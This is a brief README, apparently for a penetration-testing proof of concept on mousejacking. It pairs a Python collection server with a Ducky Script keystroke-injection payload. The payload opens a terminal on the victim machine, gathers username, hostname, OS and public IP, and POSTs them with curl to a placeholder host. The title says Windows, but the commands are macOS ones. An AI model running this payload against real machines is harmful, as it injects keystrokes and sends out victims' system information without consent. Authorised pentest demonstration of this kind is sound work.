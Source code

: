 Gather Windows Info for POC. A good use case is a POC for mousejacking finding on a pentest report.

Run the server and any port using:
```
python3 info_gather.py 80
```

On the victim machine, use a Ducky Script to send the info to the server host:
```
DELAY 2000
COMMAND SPACE  // Opens Spotlight Search
DELAY 500
STRING terminal
DELAY 500
ENTER
DELAY 1000
STRING username=$(whoami);hostname=$(scutil --get ComputerName);os=$(sw_vers -productName);public_ip=$(curl -s ifconfig.me);data="{\"username\":\"$username\",\"hostname\":\"$hostname\",\"os\":\"$os\",\"public_ip\":\"$public_ip\"}";curl -X POST -H "Content-Type: application/json" -d "$data" http://yourserver.com
DELAY 500
ENTER
```
